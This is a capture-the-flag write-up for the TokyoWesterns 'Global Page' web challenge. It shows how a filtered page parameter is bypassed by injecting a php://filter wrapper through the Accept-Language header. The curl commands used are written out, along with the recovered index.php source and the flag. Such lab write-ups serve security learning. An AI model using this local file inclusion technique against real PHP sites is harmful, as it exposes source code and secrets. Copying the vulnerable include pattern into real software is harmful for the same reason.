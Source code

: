 # Global Page WriteUp

The "quest" begin with a link wihtout any hint or sentence: [link to Global Page.](http://globalpage.chal.ctf.westerns.tokyo/)

![Landing page](images/Globalpageindex.png)
The Landing Page show one deleted and two followable links.

Trying to follow ctf or tokyo, the browser makes a GET request to a php as parameter(page) the followed link(ctf or tokyo) -> `http://globalpage.chal.ctf.westerns.tokyo/?page=ctf` or `http://globalpage.chal.ctf.westerns.tokyo/?page=tokyo`.


![Page](images/page.png)

Mh! Warning: include() => suggest with high probability a **LFI** attack.
Before continue one consideration: the include function try to open a file in the page parameter directory with the language specified in the Accept-Language Header Request.

Every LFI to the page parameter results in a correctly input sanity check(escape . and /).

What can we do? Attach a LFI in the Accept-Language and build the properly LFI.

`pirate$ curl 'http://globalpage.chal.ctf.westerns.tokyo/?page=php:' -H "Accept-Language:/filter/convert.base64-encode/resource=index"` => result in the GET Request `http://globalpage.chal.ctf.westerns.tokyo/?page=php://filter/convert.base64-encode/resource=index.php` that encode the index.php in base64.

Decode the base64 index.php and obtain:
```
<?php
if (!defined('INCLUDED_INDEX')) {
define('INCLUDED_INDEX', true);
ini_set('display_errors', 1);
include "flag.php"; <-- FLAG
?>
<!doctype html>
<html>
<head>
<meta charset=utf-8>
<title>Global Page</title>
<style>
.rtl {
  direction: rtl;
}
</style>
</head>

<body>
<?php
$dir = "";
if(isset($_GET['page'])) {
	$dir = str_replace(['.', '/'], '', $_GET['page']);
}

if(empty($dir)) {
?>
<ul>
	<li><a href="/?page=tokyo">Tokyo</a></li>
	<li><del>Westerns</del></li>
	<li><a href="/?page=ctf">CTF</a></li>
</ul>
<?php
}
else {
	foreach(explode(",", $_SERVER['HTTP_ACCEPT_LANGUAGE']) as $lang) {
		$l = trim(explode(";", $lang)[0]);
?>
<p<?=($l==='he')?" class=rtl":""?>>
<?php
		include "$dir/$l.php";
?>
</p>
<?php
	}
}
?>
</body>
</html>
<?php
}
?>
```

_include "flag.php"_, so one more time LFI:
`pirate$ curl 'http://globalpage.chal.ctf.westerns.tokyo/?page=php:' -H "Accept-Language:/filter/convert.base64-encode/resource=flag"` => result in the GET Request `http://globalpage.chal.ctf.westerns.tokyo/?page=php://filter/convert.base64-encode/resource=flag.php`.

Decode base64 et woitlà:

```
pirate$ echo "PD9waHAKJGZsYWcgPSAiVFdDVEZ7SV9mb3VuZF9zaW1wbGVfTEZJfSI7Cg" | base64 -D -
<?php
	$flag = "TWCTF{I_found_simple_LFI}";
```








